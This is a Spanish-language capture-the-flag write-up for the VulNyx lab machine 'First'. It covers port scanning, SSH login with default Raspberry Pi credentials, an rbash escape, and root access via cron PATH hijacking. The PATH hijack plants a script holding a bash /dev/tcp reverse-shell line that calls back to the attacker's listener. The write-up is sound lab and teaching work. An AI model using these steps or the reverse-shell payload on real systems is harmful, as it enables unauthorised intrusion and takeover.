 # WriteUp: First | VulNyx

Al iniciar la máquina virtual, me encontré con el mensaje `Welcome to my Raspberry!`, una clara indicación de que el sistema operativo probablemente era Raspberry Pi OS. Este dato inicial guiaría parte de mi estrategia de enumeración.

## <mark style="color:yellow;">Fase 1: Reconocimiento y Enumeración</mark>

Inicié el reconocimiento desde mi máquina Kali con un escaneo de `nmap` para descubrir todos los puertos abiertos en el objetivo.

```bash
nmap -n -Pn -sS -p- --min-rate 5000 192.168.56.25

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
4369/tcp open  epmd
```

Una vez identificados los puertos, procedí con un escaneo más detallado para obtener las versiones de los servicios en ejecución.

```bash
nmap -sVC -p22,80,4369 192.168.56.25

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
| ssh-hostkey: 
|   3072 24:83:97:49:96:11:7c:7a:54:00:17:3b:0c:f6:e1:54 (RSA)
|   256 83:cc:d0:72:41:48:fc:c4:ba:46:a1:0e:70:50:52:71 (ECDSA)
|_  256 a0:37:99:32:78:17:69:4f:1d:ac:75:1e:ba:19:58:45 (ED25519)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.56 (Debian)
4369/tcp open  epmd    Erlang Port Mapper Daemon
| epmd-info: 
|   epmd_port: 4369
|_  nodes:
```

El servicio `Erlang Port Mapper Daemon (epmd)` en el puerto 4369 captó mi atención. Al ser un servicio menos común, decidí investigar posibles vulnerabilidades públicas utilizando `searchsploit`.

```bash
searchsploit erlang
---------------------------------------------------------------------------------------------------
 Exploit Title                                                                                     |  Path
---------------------------------------------------------------------------------------------------
...
Erlang - Port Mapper Daemon Cookie Remote Code Execution (Metasploit)                              | multiple/remote/46024.rb
Erlang Cookie - Remote Code Execution                                                              | multiple/remote/49418.py
...
---------------------------------------------------------------------------------------------------
```

Los resultados mostraron un posible vector de ejecución remota de código (RCE). Al inspeccionar el módulo de Metasploit (`exploit/multi/misc/erlang_cookie_rce`), noté que requería un parámetro `COOKIE` para funcionar, un dato que no poseía en ese momento. Dejé esta información como una posible vía de ataque para más adelante y continué con la enumeración.

## <mark style="color:yellow;">Fase 2: Enumeración Web y Acceso Inicial</mark>

Al analizar el servidor web en el puerto 80, encontré la página por defecto de Apache en Debian.

<figure><img src="../../.gitbook/assets/Pasted image 20250930010543.png" alt=""><figcaption></figcaption></figure>

Realicé una enumeración de directorios con `gobuster` para descubrir contenido oculto.

```bash
gobuster dir -u http://192.168.56.25 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
...
/tasklist             (Status: 200) [Size: 137]
...
```

El directorio `/tasklist` contenía una lista de tareas simple, donde una de ellas, `[v] Update Raspberry`, me pareció un posible indicio. Intenté utilizar "Update Raspberry" como la `COOKIE` para el exploit de Erlang, pero no tuve éxito.

Sin más vectores de ataque aparentes, reconsideré la naturaleza del sistema: una Raspberry Pi con el puerto 22 (SSH) abierto. Esto me llevó a investigar las credenciales por defecto de Raspberry Pi OS. Mi investigación confirmó que las versiones antiguas utilizaban **usuario `pi`** y **contraseña `raspberry`**. Procedí a probar estas credenciales.

```bash
ssh pi@192.168.56.25
pi@192.168.56.25's password: raspberry

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberry:~ $ id
uid=1000(pi) gid=1000(pi) grupos=1000(pi)
```

El acceso fue exitoso. Obtuve una shell como el usuario `pi`.

## <mark style="color:yellow;">Fase 3: Escalada de Privilegios por PATH Hijacking</mark>

Una vez dentro, comencé la fase de escalada de privilegios. Las comprobaciones iniciales con `sudo -l` y búsqueda de binarios SUID no arrojaron resultados. Sin embargo, al revisar las tareas programadas en `/etc/crontab`, encontré una entrada de gran interés.

```bash
pi@raspberry:~ $ cat /etc/crontab
...
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/var/www/html:/bin:/usr/sbin:/usr/bin
...
* * * * * root ping -c1 raspberrypi.com
```

Identifiqué una vulnerabilidad clásica de **secuestro de la variable de entorno PATH**. Una tarea cron, ejecutándose como `root` cada minuto, ejecuta el comando `ping` sin especificar su ruta absoluta (`/bin/ping`). El `PATH` del cron incluye el directorio `/var/www/html` antes que `/bin`.

Verifiqué los permisos de dicho directorio:

```bash
ls -la /var/www/html
drwxrwxrwx 2 www-data www-data  4096 ene  7  2024 .
...
```

El directorio `/var/www/html` tiene permisos de escritura para todos los usuarios. Esto me permite crear un script malicioso llamado `ping` dentro de este directorio, que será ejecutado por `root` en lugar del binario original.

Al intentar crear el script, me encontré con una `rbash` (restricted bash).

```bash
echo '#!/bin/bash' > /var/www/html/ping
-rbash: /var/www/html/ping: restringido: no se puede redirigir la salida
```

Escapé de la shell restringida utilizando Python.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Ya en una shell `bash` estándar, creé mi payload, que establecerá una reverse shell hacia mi máquina.

```bash
echo '#!/bin/bash' > /var/www/html/ping
echo 'bash -i >& /dev/tcp/192.168.56.22/4444 0>&1' >> /var/www/html/ping
```

Otorgué permisos de ejecución al script.

```bash
chmod +x /var/www/html/ping
```

Finalmente, puse un listener de `netcat` en mi máquina atacante para recibir la conexión.

```bash
nc -lvnp 4444
```

Al cabo de un minuto, la tarea cron se ejecutó, activando mi payload y otorgándome una shell como `root`. 👾

```bash
# Conexión recibida
root@raspberry:~# id
uid=0(root) gid=0(root) groups=0(root)
root@raspberry:~# cat user.txt
09XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
root@raspberry:~# cat root.txt
a4XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```
